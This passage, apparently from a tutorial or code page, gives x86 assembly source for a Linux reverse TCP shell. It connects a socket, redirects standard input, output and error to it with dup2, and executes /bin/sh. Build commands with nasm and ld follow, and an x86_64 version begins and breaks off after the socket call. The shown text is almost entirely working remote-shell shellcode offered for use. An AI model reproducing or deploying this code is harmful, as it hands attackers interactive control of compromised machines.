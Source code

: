 ```s
    mov     bl, 3           ; SYS_CONNECT
    int     0x80

    ; ------------------------------------------------
    ; Redirect STDIN, STDOUT, STDERR to socket
    ; ------------------------------------------------
    mov     ebx, esi        ; sockfd
    xor     ecx, ecx        ; start with STDIN (0)

dup_loop:
    mov     al, 0x3f        ; dup2 syscall
    int     0x80
    inc     ecx
    cmp     cl, 3           ; do for 0, 1, 2
    jl      dup_loop

    ; ------------------------------------------------
    ; execve("/bin/sh", NULL, NULL)
    ; ------------------------------------------------
    xor     eax, eax
    push    eax
    push    0x68732f2f      ; "hs//"
    push    0x6e69622f      ; "nib/"
    mov     ebx, esp        ; "/bin//sh"
    push    eax
    mov     edx, esp        ; envp = NULL
    push    ebx
    mov     ecx, esp        ; argv
    mov     al, 0x0b        ; execve
    int     0x80
```

**Assembling and Execution**

```bash
nasm -f elf32 reverse_tcp32.s -o reverse_tcp32.o
ld -m elf_i386 reverse_tcp32.o -o reverse_tcp32
```

### x86_64 Reverse TCP Shell Assembly

And here's the x86_64 version:

```s
section .text
global _start

_start:
    ; Clear registers
    xor     rax, rax
    xor     rbx, rbx
    xor     rcx, rcx
    xor     rdx, rdx

    ; ------------------------------------------------
    ; socket(AF_INET, SOCK_STREAM, 0)
    ; ------------------------------------------------
    mov     rdi, 2          ; AF_INET
    mov     rsi, 1          ; SOCK_STREAM
    mov     rdx, 0          ; protocol
    mov     rax, 0x29       ; sys_socket
    syscall
    mov     r12, rax        ; r12 = sockfd

    ; ------------------------------------------------
```